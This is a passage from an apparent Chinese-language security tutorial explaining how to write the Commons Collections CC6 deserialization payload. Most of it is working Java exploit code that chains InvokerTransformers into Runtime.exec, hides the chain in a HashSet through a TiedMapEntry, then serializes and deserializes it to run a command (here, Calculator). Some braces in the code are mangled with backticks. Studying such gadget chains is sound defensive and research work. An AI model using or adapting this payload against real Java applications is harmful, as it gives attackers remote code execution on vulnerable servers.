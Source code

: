 构造payload可以参考下图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0117e939ee71ef5422.png)

### <a class="reference-link" name="0x3%20payload%E7%BC%96%E5%86%99"></a>0x3 payload编写

利用分析过后payload也就相对比较好写了，TiedMapEntry 之前都不用更该，主要是HashMap和HashSet之间的调用代码，在一开始的前置知识中也写很详细的介绍了。CC6 利用代码在序列化链部分主要是修改了HashSet中的HashMap中的table的key为构造好的TiedMapEntry对象。这样在HashSet触发readObject函数的时候就可以走通整个流程。

```
public static void main(String[] args) throws Exception `{`
        final String[] execArgs = new String[] `{` "/System/Applications/Calculator.app/Contents/MacOS/Calculator" `}`;
        final Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] `{`
                        String.class, Class[].class `}`, new Object[] `{`
                        "getRuntime", new Class[0] `}`),
                new InvokerTransformer("invoke", new Class[] `{`
                        Object.class, Object[].class `}`, new Object[] `{`
                        null, new Object[0] `}`),
                new InvokerTransformer("exec",
                        new Class[] `{` String.class `}`, execArgs),
                new ConstantTransformer(1) `}`;

        Transformer transformerChain = new ChainedTransformer(transformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        f = HashSet.class.getDeclaredField("map");
        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        f2 = HashMap.class.getDeclaredField("table");
        f2.setAccessible(true);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null)`{`
            node = array[1];
        `}`

        Field keyField = null;
        keyField = node.getClass().getDeclaredField("key");
        keyField.setAccessible(true);
        keyField.set(node, entry);

        byte[] serializeData=serialize(map);
        unserialize(serializeData);
    `}`
```
